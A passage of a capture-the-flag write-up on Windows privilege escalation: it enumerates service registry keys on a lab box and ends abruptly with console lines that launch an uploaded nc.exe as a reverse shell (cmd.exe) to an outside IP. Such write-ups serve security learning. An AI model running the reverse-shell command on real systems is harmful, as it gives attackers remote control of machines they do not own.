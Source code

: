 
## Beginning of the guess work

The box gave us a few hints, now it’s up to us to put all of them together and come up with an attack vector. Judging from his PowerShell history Hector was concerned with checking the ACL of the CurrentControlSet registry entries, so maybe, just maybe, some entries in there will have some interesting or non-standard permissions that we could take advantage of. This is our first assumption.

Arguably the most interesting entry within the CurrentControlSet child items is Services. All entries in the Services folder tell Windows how to manage the installed services, how to start them, when, with what privileges, and so on.

As we should already know, Windows services typically run under the [local SYSTEM](https://docs.microsoft.com/en-us/windows/win32/services/localsystem-account) account unless they’ve been set to use a less privileged account, like the [local service](https://docs.microsoft.com/en-us/windows/win32/services/localservice-account) or the [network service](https://docs.microsoft.com/en-us/windows/win32/services/networkservice-account) accounts.

Because of the very high privileges under which a lot of services run they make for very interesting targets. So let’s start enumerating the services this installation of Windows has enabled, simply by listing the child entries of the Services directory in the registry:

```aaa
PS C:\Users\Hector\Documents> reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlset\Services > svcs.txt
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlset\Services > svcs.txt
PS C:\Users\Hector\Documents> dir
dir


    Directory: C:\Users\Hector\Documents


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----         4/6/2020   6:58 PM          45272 nc.exe                                                                
-a----         4/6/2020   7:02 PM             11 query                                                                 
-a----         4/6/2020   7:02 PM              0 Servicenames.txt                                                      
-a----         4/6/2020   7:03 PM          85894 svcs.txt                                                              


PS C:\Users\Hector\Documents>
```

The output will look like this:

```aaa
[....]
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlset\Services\netvscvfpp
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlset\Services\NgcCtnrSvc
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlset\Services\NgcSvc
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlset\Services\NlaSvc
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlset\Services\Npfs
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlset\Services\npsvctrig
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlset\Services\nsi
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlset\Services\nsiproxy
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlset\Services\Ntfs
[....]
```


[localhost]: PS C:\Users\Hector\Documents> whoami
[localhost]: PS C:\Users\Hector\Documents>
[localhost]: PS C:\Users\Hector\Documents> Invoke-Command -ScriptBlock { C:\inetpub\wwwroot\uploads\nc.exe -e cmd.exe 10.10.15.203 9898 }